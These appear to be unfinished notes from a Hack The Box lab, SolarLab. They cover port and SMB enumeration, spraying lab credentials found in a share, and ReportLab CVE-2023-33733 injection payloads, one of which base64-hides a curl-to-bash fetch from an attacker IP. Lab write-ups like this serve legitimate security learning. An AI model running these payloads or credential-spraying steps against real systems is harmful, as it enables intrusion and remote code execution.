

# HTB - SolarLab
https://app.hackthebox.com/machines/SolarLab

Target IP: 10.10.11.16

Nmap scan:
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

PORT    STATE SERVICE       VERSION
80/tcp  open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-07-13T07:28:45
|_  start_date: N/A
|_clock-skew: -7m47s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Add host to `/etc/hosts`: 10.10.11.16 solarlab.htb

The website has nothing fun.

Scan for vhost?

ffuf -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200 -fc 404 -t 40

ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -c -v -t 50 -fs 169

No vhost found.

ffuf -u https://FUZZ.solarlab.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -v -c -t 40

Enumerate SMB:

Enumerate SMB Shares using Nmap
nmap -p 445 --script smb-enum-shares,smb-enum-users 10.10.11.16

nothing.

List Shares with smbclient
smbclient -L //10.10.11.16 -N

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Documents       Disk
IPC$            IPC       Remote IPC

smbclient //10.10.11.16/Documents -N

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

Downloaded two file: details-file.xlsx old_leave_request_form.docx

Open details-file.xlsx:

Username	Password
Alexander.knight@gmail.com	al;ksdhfewoiuh
KAlexander	dkjafblkjadsfgl
Alexander.knight@gmail.com	d398sadsknr390
blake.byte	ThisCanB3typedeasily1@
AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn


smbclient //<target_ip>/<share_name> -U <username>
smbclient //10.10.11.16/C -U KAlexander

smbclient //<target_ip>/C$ -U username%password


smbclient //10.10.11.16/C$ -U blake.byte%ThisCanB3typedeasily1@ Failed
smbclient //10.10.11.16/C$ -U AlexanderK%danenacia9234n Failed
smbclient //10.10.11.16/C$ -U ClaudiaS%dadsfawe9dafkn Failed
smbclient //10.10.11.16/C$ -U KAlexander%dkjafblkjadsfgl Failed

smbclient //10.10.11.16/C$ -U Alexander.knight@gmail.com Failed

Need to scan all the ports:
https://github.com/Tib3rius/AutoRecon

With nmap
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6791/tcp open  hnm

Check port 6791

PORT     STATE SERVICE VERSION
6791/tcp open  http    nginx 1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
|_http-server-header: nginx/1.24.0

Add to `/etc/hosts`: 10.10.11.16 report.solarlab.htb


AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn

2 user login failed with notification: user authentication error. Others failed with user not found.

All credentials are not incorrect. But the format of username is "FirstL".

Regconize Blake.byte is invalid, change it to `BlakeB` with password `ThisCanB3typedeasily1@`and successfully login to the report website.


All the subpage are same. Let check the button `Generate PDF`


It generate a PDF file. It insert my uploaded image to the PDF file.


Found the `reportlab` here.

Search on Google: reportlab exploit and got this repo: https://github.com/c53elyas/CVE-2023-33733

The payload
```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

See the color attribute -> edit the Justification to add the html tag.



Find another poc of CVE-2023-33733

https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md

```html
<font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'os', 'echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMzI6ODAwMAo= | base64 -d|bash'), ('__import__', 'system'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
```

Still failed.

https://github.com/L41KAA/CVE-2023-33733-Exploit-PoC

Still failed.


The actual payload is look like this:

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

Just edit the justification didn't work.
Checking how this website generate the html file.

When send the payload, I get the warning like this:


Need to shorten the payload??? maximum 300 characters

Read Javascript to know how it validate the input
```javascript
const editor = document.getElementById('editor');
const userTextInput = document.getElementById('user_input');
const charCountDisplay = document.getElementById('charCount');
const maxCharacters = 300;

const toolbarOptions = [
    ['bold', 'italic', 'underline', 'strike'],
    ['blockquote', 'code-block'],
    [{ 'header': 1 }, { 'header': 2 }],
    [{ 'list': 'ordered' }, { 'list': 'bullet' }],
    [{ 'indent': '-1' }, { 'indent': '+1' }],
    [{ 'align': [] }],
    ['clean']
];


var quill = new Quill('#editor', {
    theme: 'snow',
    modules: {
        toolbar: toolbarOptions,
    },
});


quill.on('text-change', function () {
    let quillContent = quill.root.innerHTML;
    quillContent = quillContent.replace(/<\/?[^>]+(>|$)/g, ""); // Remove HTML tags
    const charCount = quillContent.length;

    charCountDisplay.textContent = charCount + '/' + maxCharacters + ' characters';

    if (charCount > maxCharacters) {
        quill.deleteText(maxCharacters, charCount - maxCharacters);
    }

    // Update the hidden textarea directly
    userTextInput.value = quillContent;
});

document.addEventListener('DOMContentLoaded', function () {
    const form = document.querySelector('form');

    form.addEventListener('submit', function (event) {
    var fromDate = $("#from").val();
    var toDate = $("#to").val();
    var dateRange = fromDate + " to " + toDate;
    document.getElementById('time_interval').value = dateRange;
    
        userTextInput.value = quill.root.innerHTML;
    });
});

$( function() {
    $( "#from, #to" ).datepicker({ dateFormat: 'yy-mm-dd' });
} );
```